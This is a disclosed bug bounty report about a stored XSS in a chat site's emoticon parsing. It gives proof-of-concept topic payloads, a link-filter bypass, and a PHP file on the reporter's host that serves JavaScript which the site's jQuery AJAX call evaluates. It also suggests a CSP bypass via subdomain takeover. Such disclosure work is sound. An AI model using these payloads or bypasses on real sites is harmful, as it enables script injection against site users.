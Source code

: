 # Stored XSS in chat topic due to insecure emoticon parsing on any message type

## Report Details
- **Report ID**: 429298
- **URL**: https://hackerone.com/reports/429298
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-26T14:38:18.693Z
- **Disclosed**: 2018-11-01T20:22:29.144Z

## Reporter
- **Username**: avlidienbrunn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: chaturbate

## Vulnerability Information
## Description

The funcitonality for adding emoticons into the chat from the serverside perspective is based on a string in the following format:

```
%%%[emoticon NAME|EMOTICON_URL|WIDTH|HEIGHT|REPORT_URL]%%%
```

The `EMOTICON_URL` must conform to the following regex:
```javascript
/(http|https):\/\/(\w+:{0,1}\w*@)?(\S+)(:[0-9]+)?(\/|\/([\w#!:.?+=&%@!\-\/]))?/g
```

However, the `REPORT_URL` does not have any checks that verifies the URL. This, combined with other issues listed below, leads to stored XSS.

### Chat topic link filter bypass

The chat topic functionality has a filter that removes links from the topic, by removing the string `http`. This can be bypassed by using a string such as `htthttpps` (after replace becomes `https`).

### XSS Via ctrl/mouse3 click and  `javascript:` `REPORT_URL`
By using a `javascript:` URL as `REPORT_URL`, we can create an emoji that, when clicked, will show the "report emoticon" prompt. By ctrl-clicking or mouse3-clicking the `REPORT EMOTICON` link, the XSS triggers.

#### PoC

1. Set topic to `LUL %%%[emoticon blush|htthttpps://public.chaturbate/uploads/avatar/2011/11/08/cxecSeKtWjRK.jpg|22|22|javascript:alert(1)]%%% WUT`
2. Click emoticon
3. Ctrl/mouse3 click `REPORT EMOTICON`

{F366518}

### XSS Via emoticon report due to insecure usage of jQuery $.ajax()

The functionality for reporting an emoticon sends an AJAX request to `REPORT_URL`. This leads to XSS due to the fact that jQuery will treat any `application/javascript` response as javascript and will evaluate the response.

#### PoC

1. Set topic to `LUL %%%[emoticon blush|htthttpps://public.chaturbate/uploads/avatar/2011/11/08/cxecSeKtWjRK.jpg|22|22|htthttpps://avlidienbrunn.se/xss.php]%%% WUT`
2. Click emoticon
3. Click `REPORT EMOTICON`
4. Click `REPORT`

{F366520}

Contents of `xss.php`:
```php
<?php
header('Content-Type: text/javascript');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: X-Requested-With, connectUrl, X-CSRFToken');
?>
alert(document.domain);
```

### Notes

**CSP**
The reason the second XSS issue does not work in CSP enabled browsers is that no domain in my control is allowed by the `connect-src` directive. However, several `*.DOMAIN.COM` are included in `connect-src`:
```javascript
https://*.highwebmedia.com
https://*.chaturbate.com
https://*.hotjar.com:*
```
This means this issue can be exploited if a [subdomain takeover](https://www.hacker101.com/vulnerabilities/subdomain_takeover.html) bug exists in any of those domains. Obviously I can't test for that, but it's an important note regarding impact.

**Other exploitation areas**
The only place where I could find that didn't respond with a server error when using `%%%[emoticon ]%%%` was the room topic. However, if there is any other type of message that allows this string, that would be vulnerable as well, since the emoticon parsing functionality is ran on all messages.

## Impact

Stored XSS on chaturbate.com with 2 click interaction.

Exploitation by using an offensive image in `EMOTICON_URL` using XSS payload in `REPORT_URL`. It's also possible to create an emoticon that covers the whole chat window by using a large value in `WIDTH` and `HEIGHT`:

{F366528}

## Attachments
- Screen_Shot_2018-10-26_at_16.04.31.png
- Screen_Shot_2018-10-26_at_16.18.37.png
- Screen_Shot_2018-10-26_at_16.37.56.png
